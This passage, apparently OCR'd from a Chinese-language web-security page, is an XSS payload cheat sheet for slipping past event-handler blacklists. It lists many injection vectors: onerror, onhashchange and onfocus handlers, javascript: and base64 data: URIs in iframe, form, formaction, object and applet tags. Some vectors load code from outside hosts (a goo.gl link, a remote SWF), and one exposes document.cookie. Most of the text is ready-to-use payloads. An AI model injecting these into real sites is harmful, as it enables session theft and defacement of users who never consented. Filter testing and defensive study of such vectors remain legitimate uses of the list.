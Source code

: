 如果是完整的返回的话呢，那么意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件测试一个很少见的事件：
```
<body/onhashchange=alert(1)><a href=#>clickit
```
测试其他标签

接下来测试其他的标签跟属性

Src属性
```
<img src=x onerror=prompt(1);>
<img/src=aaa.jpg onerror=prompt(1);> 
<video src=x onerror=prompt(1);>
<audio src=x onerror=prompt(1);>
```
iframe标签
```
<iframe src="javascript:alert(2)">
<iframe/src="data:text/html;	base64
,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
```
embed标签
```
<embed/src=//goo.gl/nlX0P>
```
action属性

利用`<form`，`<isindex`等标签中的action属性执行javascript
```
<form action="Javascript:alert(1)"><input type=submit>
<isindex action="javascript:alert(1)" type=image>
<isindex action=j	a	vas	c	r	ipt:alert(1) type=image>
<isindex action=data:text/html, type=image>
<formaction='data:text/html,<script>alert(1)</script>'><button>CLICK
```
formaction属性
```
<isindexformaction="javascript:alert(1)" type=image>
<input type="image" formaction=JaVaScript:alert(0)>
<form><button formaction=javascript:alert(1)>CLICKME
```
background属性
```
<table background=javascript:alert(1)></table> // 在Opera
10.5和IE6上有效
```
poster属性
```
<video poster=javascript:alert(1)//></video> // Opera
10.5以下有效
```
data属性
```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<object/data=//goo.gl/nlX0P?
```
code属性
```
<applet code="javascript:confirm(document.cookie);"> // Firefox有效
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
<svg/onload=prompt(1);>
<marquee/onstart=confirm(2)>/
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="javascript:alert(1)">
```
最短的测试向量